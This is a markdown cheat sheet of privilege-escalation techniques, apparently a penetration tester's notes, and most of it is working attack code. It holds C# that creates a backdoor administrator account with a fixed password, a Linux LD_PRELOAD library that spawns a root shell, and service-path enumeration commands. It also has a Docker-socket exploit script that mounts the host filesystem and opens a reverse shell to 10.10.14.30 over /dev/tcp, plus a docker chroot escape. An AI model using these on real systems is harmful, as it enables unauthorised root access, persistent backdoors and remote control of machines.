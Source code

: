 # Windows
## Privilege Escalation Scripts
- [PrivescCheck [20220608]](https://github.com/itm4n/PrivescCheck)
- [Windows Privilege Escalation Awesome Scripts [20220501]](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Add a user to the local system - C#
- [Add a user to the local system - C#](https://docs.microsoft.com/en-us/troubleshoot/developer/visualstudio/csharp/language-compilers/add-user-local-system)
```csharp
// "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /target:exe /r:"C:\Windows\Microsoft.NET\Framework\v4.0.30319\System.DirectoryServices.dll" Program.cs

using System;
using System.DirectoryServices;

class Class1
{
    static void Main(string[] args)
    {
        try
        {
            DirectoryEntry AD = new DirectoryEntry("WinNTc://" +
            Environment.MachineName + ",computer");
            DirectoryEntry NewUser = AD.Children.Add("admin", "user");
            NewUser.Invoke("SetPassword", new object[] {"#12345Abc"});
            NewUser.Invoke("Put", new object[] {"Description", "Test User from .NET"});
            NewUser.CommitChanges();
            DirectoryEntry grp;

            grp = AD.Children.Find("Administrators", "group");
            if (grp != null) {grp.Invoke("Add", new object[] {NewUser.Path.ToString()});}
            Console.WriteLine("Account Created Successfully");
            Console.ReadLine();
        }
        catch (Exception ex)
        {
            Console.WriteLine(ex.Message);
            Console.ReadLine();
        }
    }
}
```

## Unquoted Service Paths

### WMIC
```batchfile
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

### PowerShell
```powershell
$result = $null
$result = Get-WmiObject win32_service | Where-Object {($_.PathName -like '* *') -and ($_.PathName -notlike '*"*') -and ($_.PathName -notlike '*C:\Windows*')} | ForEach-Object { Write $_.PathName }
if ($result -ne $null) { Write $result | Sort -Unique } else { Write "Weak services were not found." }
```

### Specific service
```batchfile
sc qc "<service name>"
```

# Linux
## LD_PRELOAD
```c
// gcc -fPIC -shared -o shell.so shell.c -nostartfiles
// sudo LD_PRELOAD=/tmp/shell.so <suid_elf_or_scrip>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}
```

## [pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

```sh
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 

# place watchers recursively in two directories and non-recursively into a third
./pspy64 -r /path/to/first/recursive/dir -r /path/to/second/recursive/dir -d /path/to/the/non-recursive/dir

# disable printing discovered commands but enable file system events
./pspy64 -p=false -f
```

# Docker
## [exploit-docker-sock.sh](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)
```sh
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.30/12348 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=peterpwn_root

# start the container
curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/peterpwn_root/start"
```

## [GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
